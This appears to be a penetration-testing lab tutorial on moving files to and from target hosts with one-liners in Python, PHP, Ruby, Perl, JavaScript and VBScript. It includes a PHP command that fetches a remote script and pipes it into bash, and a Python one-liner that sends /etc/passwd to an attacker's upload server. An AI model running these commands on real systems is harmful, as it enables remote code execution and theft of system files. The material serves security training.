 # Transferring Files with Code
- [Transferring Files with Code](#transferring-files-with-code)
  - [**Python**](#python)
    - [**Python 2 - Download**](#python-2---download)
    - [**Python 3 - Download**](#python-3---download)
  - [**PHP**](#php)
    - [**PHP Download with File\_get\_contents()**](#php-download-with-file_get_contents)
    - [**PHP Download with Fopen()**](#php-download-with-fopen)
    - [**PHP Download a File and Pipe it to Bash**](#php-download-a-file-and-pipe-it-to-bash)
  - [**Other Languages**](#other-languages)
    - [**Ruby - Download a File**](#ruby---download-a-file)
    - [**Perl - Download a File**](#perl---download-a-file)
  - [**JavaScript**](#javascript)
    - [**Download a File Using JavaScript and cscript.exe**](#download-a-file-using-javascript-and-cscriptexe)
  - [**VBScript**](#vbscript)
    - [**Download a File Using VBScript and cscript.exe**](#download-a-file-using-vbscript-and-cscriptexe)
  - [**Upload Operations using Python3**](#upload-operations-using-python3)
    - [**Starting the Python uploadserver Module**](#starting-the-python-uploadserver-module)
    - [**Uploading a File Using a Python One-liner**](#uploading-a-file-using-a-python-one-liner)

It's common to find different programming languages installed on the machines we are targetting. Programming languages such as Python, PHP, Perl, and Ruby are commonly available in Linux distributions but can also be installed on Windows, although this is far less common.

We can use some Windows default applications, such as `cscript` and `mshta`, to execute JavaScript or VBScript code. JavaScript can also run on Linux hosts.

According to Wikipedia, there are around [700 programming languages](https://en.wikipedia.org/wiki/List_of_programming_languages), and we can create code in any programing language, to download, upload or execute instructions to the OS. This section will provide a few examples using common programming languages.

---

## **Python**

Python is a popular programming language. Currently, version 3 is supported, but we may find servers where Python version 2.7 still exists. `Python` can run one-liners from an operating system command line using the option `-c`. Let's see some examples:

### **Python 2 - Download**

```
th1nyunb0y@htb[/htb]$ python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

### **Python 3 - Download**

```
th1nyunb0y@htb[/htb]$ python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

---

## **PHP**

`PHP` is also very prevalent and provides multiple file transfer methods. [According to W3Techs' data](https://w3techs.com/technologies/details/pl-php), PHP is used by 77.4% of all websites with a known server-side programming language. Although the information is not precise, and the number may be slightly lower, we will often encounter web services that use PHP when performing an offensive operation.

Let's see some examples of downloading files using PHP.

In the following example, we will use the PHP [file_get_contents() module](https://www.php.net/manual/en/function.file-get-contents.php) to download content from a website combined with the [file_put_contents() module](https://www.php.net/manual/en/function.file-put-contents.php) to save the file into a directory. `PHP` can be used to run one-liners from an operating system command line using the option `-r`.

### **PHP Download with File_get_contents()**

```
th1nyunb0y@htb[/htb]$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

An alternative to `file_get_contents()` and `file_put_contents()` is the [fopen() module](https://www.php.net/manual/en/function.fopen.php). We can use this module to open a URL, read it's content and save it into a file.

### **PHP Download with Fopen()**

```
th1nyunb0y@htb[/htb]$ php -r 'const BUFFER = 1024; $fremote =
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

---

We can also send the downloaded content to a pipe instead, similar to the fileless example we executed in the previous section using cURL and wget.

### **PHP Download a File and Pipe it to Bash**

```
th1nyunb0y@htb[/htb]$ php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

**Note:** The URL can be used as a filename with the @file function if the fopen wrappers have been enabled.

---

## **Other Languages**

`Ruby` and `Perl` are other popular languages that can also be used to transfer files. These two programming languages also support running one-liners from an operating system command line using the option `-e`.

---

### **Ruby - Download a File**

```
th1nyunb0y@htb[/htb]$ ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

---

### **Perl - Download a File**

```
th1nyunb0y@htb[/htb]$ perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

---

## **JavaScript**

JavaScript is a scripting or programming language that allows you to implement complex features on web pages. Like with other programming languages, we can use it for many different things.

The following JavaScript code is based on [this](https://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-or-curl/373068) post, and we can download a file using it. We'll create a file called `wget.js` and save the following content:

```jsx
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

We can use the following command from a Windows command prompt or PowerShell terminal to execute our JavaScript code and download a file.

### **Download a File Using JavaScript and cscript.exe**

```
C:\htb> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

---

## **VBScript**

[VBScript](https://en.wikipedia.org/wiki/VBScript) ("Microsoft Visual Basic Scripting Edition") is an Active Scripting language developed by Microsoft that is modeled on Visual Basic. VBScript has been installed by default in every desktop release of Microsoft Windows since Windows 98.

The following VBScript example can be used based on [this](https://stackoverflow.com/questions/2973136/download-a-file-with-vbs). We'll create a file called `wget.vbs` and save the following content:

```
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

We can use the following command from a Windows command prompt or PowerShell terminal to execute our VBScript code and download a file.

### **Download a File Using VBScript and cscript.exe**

```
C:\htb> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

---

## **Upload Operations using Python3**

If we want to upload a file, we need to understand the functions in a particular programming language to perform the upload operation. The Python3 [requests module](https://pypi.org/project/requests/) allows you to send HTTP requests (GET, POST, PUT, etc.) using Python. We can use the following code if we want to upload a file to our Python3 [uploadserver](https://github.com/Densaugeo/uploadserver).

### **Starting the Python uploadserver Module**

```
th1nyunb0y@htb[/htb]$ python3 -m uploadserver File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

### **Uploading a File Using a Python One-liner**

```
th1nyunb0y@htb[/htb]$ python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

Let's divide this one-liner into multiple lines to understand each piece better.

```python
# To use the requests function, we need to import the module first.
import requests

# Define the target URL where we will upload the file.
URL = "http://192.168.49.128:8000/upload"

# Define the file we want to read, open it and save it in a variable.
file = open("/etc/passwd","rb")

# Use a requests POST request to upload the file.
r = requests.post(url,files={"files":file})
```

We can do the same with any other programming language. A good practice is picking one and trying to build an upload program.